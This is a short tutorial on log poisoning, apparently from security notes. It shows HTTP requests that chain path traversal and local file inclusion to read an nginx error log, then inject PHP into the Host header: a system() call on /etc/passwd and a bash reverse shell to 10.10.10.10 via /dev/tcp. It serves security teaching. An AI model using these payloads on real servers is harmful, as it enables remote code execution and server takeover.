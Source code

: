 Log poisoning is a vulnerability that is caused by local file inclusion where an attacker is able to view the contents of the log file and modify the value of HTTP headers - `Host:` and `User-Agent:` for example, to write arbitrary code and achieve remote code execution on the server.

For example, imagine an application that returns a `.php` page by reading the `page` parameter
```http
GET /blog.php?page=hello-world.php
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
We can exploit this by chaining path traversal and local file inclusion to view the log file:
```http
GET /blog.php?page=../../../../var/log/nginx/error.log
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
Notice that in the log file, the `Host` HTTP header is displayed along with other HTTP headers. Therefore, we will attempt to remote code execution to view the contents of a sensitive file or upload a shell to gain full control of the server.
```http
GET /blog.php?page=../../../../var/log/nginx/error.log
Host: <?php system('ls /etc/passwd') ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
```http
GET /blog.php?page=../../../../var/log/nginx/error.log
Host: <?php system('/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1') ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```